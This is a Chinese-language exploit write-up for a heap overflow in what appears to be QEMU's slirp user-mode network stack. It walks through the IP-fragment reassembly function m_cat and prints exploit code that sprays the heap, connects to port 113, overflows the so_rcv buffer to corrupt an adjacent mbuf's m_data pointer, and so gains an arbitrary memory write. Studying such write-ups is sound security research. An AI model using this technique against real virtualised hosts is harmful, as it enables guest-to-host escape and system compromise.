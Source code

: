 ```c
m_cat(struct mbuf *m, struct mbuf *n)
{
	/*
	 * If there's no room, realloc
	 */
	if (M_FREEROOM(m) < n->m_len)
		m_inc(m, m->m_len + n->m_len);

	memcpy(m->m_data+m->m_len, n->m_data, n->m_len);
	m->m_len += n->m_len;

	m_free(n);
}
```

可以看到在`ip_input`中，当数据包是最后一个切片数据包时（IP_MF不为1），会在`ip_reass`函数中调用`m_cat`将数据包组合起来。关键代码是`memcpy(m->m_data+m->m_len, n->m_data, n->m_len)`，如果我们可以利用堆溢出覆盖`m`结构体的`m_data`，则就可以实现将可控的数据`n->m_data`写到任意的地址`m->m_data+m->m_len`处。

exp中任意地址写函数关键代码如下，首先利用malloc原语将清空堆，使得堆排布可控。接着利用与host主机113端口建立socket连接，申请出来可溢出的`struct sbuf *so_rcv`结构体。紧接着在后面分配一个ip切片数据包`mbuf`，其id为0xdead。由于堆的排布，该数据包是紧贴着`so_rcv`的，可以利用堆溢出覆盖`mbuf`中的`m_data`指针。最后再次发送相同id（0xdead）并且MF标志为0的数据包，`memcpy`拷贝至`m_data`指针处时，实现任意地址写。

```c
		....
    //使堆排布可控
		for (i = 0; i < spray_times; ++i) {
        dbg_printf("spraying size 0x2000, id: %d\n", i);
        spray(0x2000, g_spray_ip_id + i);
    }
		...
    //建立溢出buffer so_rcv
		s = socket(AF_INET, SOCK_STREAM, 0);
    ip_addr.sin_family = AF_INET;
    ip_addr.sin_addr.s_addr = inet_addr(host);
    ip_addr.sin_port = htons(113); // vulnerable port
    len = sizeof(struct sockaddr_in);
    ret = connect(s, (struct sockaddr *)&ip_addr, len);
    if (ret == -1) {
        perror("oops: client");
        exit(1);
    }

		//建立mbuf 
    pkt_info.ip_id = 0xdead;
    pkt_info.ip_off = 0;
    pkt_info.MF = 1;
    pkt_info.ip_p = 0xff;
    send_ip_pkt(&pkt_info, payload, 0x300 + 4); // 这个packet就在so_rcv的后面

		//溢出，将指针后移
    /*
        let's overflow here!
        send(xxx)
    */
    for (i = 0; i < 6; ++i) {
        write(s, payload, 0x500); // 不能send一个满的m_buf，因为会有一个off by
                                  // null = =。。。。
        usleep(20000); // 不知道为啥，貌似内核会合并包？
                       // 如果合并了就会off by null...
                       // 所以sleep一下
        dbg_printf("send %d complete\n", i + 1);
    }
    write(s, payload, 1072);
```